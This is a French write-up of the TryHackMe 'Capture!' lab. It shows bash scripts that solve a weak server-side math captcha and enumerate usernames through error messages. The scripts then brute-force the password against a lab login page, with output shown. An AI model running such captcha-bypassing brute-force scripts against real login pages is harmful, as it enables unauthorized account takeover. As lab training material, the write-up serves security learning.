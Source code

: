 
# THM - Capture! writeup

Lien : https://tryhackme.com/room/capture

## Etape 1 : discovery
On a un site à disposition, avec une petite histoire : pas de WAF, les développeurs ont fait leur propre popote...

On commence par télécharger une archive Zip, avec une liste de usernames et une liste de password. Facile - _trop facile_ ?

On se connecte sur le site : rien de particulier, une simple page de login.
Sauf que très vite, si on essaye des combinaisons au pif, un captcha apparait !

C'est une simple opération arithmétique. **Mais** on remarque
- qu'il n'y a aucun cookie, aucun champ caché dans le formulaire
- que si la valeur du captcha est mauvaise, on a un "Invalid captcha" - au lieu d'un "user does not exist"

--> Conclusion : le captcha est géré _server-side_, autrement dit pas possible de faire des requêtes en parallèle : chaque nouvelle HTTP request doit contenir la réponse au captcha de la HTTP response précédente 😞 

Ça veut dire : pas le droit à Hydra, ni Ffuf, ni quoi que ça soit d'autre.

Pas grave, on passe en mode manuel.

## Etape 2 : trouver le username
Le message d'erreur est un indice : l'utilisateur "does not exist". Autrement dit, avec un utilisateur qui existe, on aurait (peut-être, _probablement_ même) un message différent.

Résoudre le captcha n'est pas un souci : la question est sur la 97ème ligne de la HTTP response précédente, et une simple opération peut être automatisée.

On commence donc par écrire le script suivant pour extraire le username.

```
#!/bin/bash
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse


for i in $(cat usernames.txt); do
        # Get captcha answer from last HTTP responsei, line 97
        # (use bc to get the result)
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)

        # username cleansing - too lazy to set IFS
        user=$(echo $i|sed 's/[^a-z]//g')

        # new attempt
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=test&captcha=$captcha" \
          > lastresponse

        # check if last response is different
        cat lastresponse | sed -n '105p' | grep -v "does not exist" \
         && echo $user && break
done
```

Y'a plus qu'à :
```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_username.sh
    <p class="error"><strong>Error:</strong> Invalid password for user &#39;xxxREDACTEDxxx&#39;
xxxREDACTEDxxx
```

Et hop on a le username en quelques secondes.

## Etape 3 : trouver le password
On va faire exactement pareil, à un détail près : si on trouve le bon password, on risque de _ne pas_ avoir de message d'erreur. **Mais** on n'aura probablement aucun captcha à calculer pour la fois suivante -- donc le message suivant sera probablement "Invalid Captcha"

```
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse

previous=
for i in $(cat passwords.txt); do
        # Get captcha ...
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
        # Too lazy again...
        password=$(echo $i | sed 's/[^a-zA-Z0-9]//')
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$1&password=$password&captcha=$captcha" \
          > lastresponse
        cat lastresponse | sed -n '105p' | grep -v "Invalid password for" \
          && echo $previous && break
        previous=$password
done
```

Encore une fois, y'a plus qu'à :

```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_password.sh xxxREDACTED_USERxxx
    <p class="error"><strong>Error:</strong> Invalid captcha
xxxREDACTED_PASSWORDxxx
```

## Etape 4 (et dernière) : trouver le flag
Là, c'est plutôt simple : on se logge avec le username et le password qu'on a trouvé : il s'affiche. Tout simplement.

Bonus : le script suivant automatise toute la résolution (username, password, et même flag)

```
#!/bin/bash
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse

for i in $(cat usernames.txt); do
        # Get captcha answer from last HTTP responsei, line 97
        # (use bc to get the result)
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)

        # username cleansing - too lazy to set IFS
        user=$(echo $i|sed 's/[^a-z]//g')

        # new attempt
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=test&captcha=$captcha" \
          > lastresponse

        # check if last response is different
        cat lastresponse | sed -n '105p' | grep -v "does not exist" \
        > /dev/null && break
done

echo Found username: $user

previous=
for i in $(cat passwords.txt); do
        # Get captcha ...
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
        # Too lazy again...
        password=$(echo $i | sed 's/[^a-zA-Z0-9]//')
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=$password&captcha=$captcha" \
          > lastresponse
        cat lastresponse | sed -n '105p' | grep -v "Invalid password for" \
         > /dev/null && break
        previous=$password
done

echo Found password: $previous

captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw "username=$user&password=$previous&captcha=$captcha" \
  | sed 's/<[^>]*>//g'
```
Et voilà !
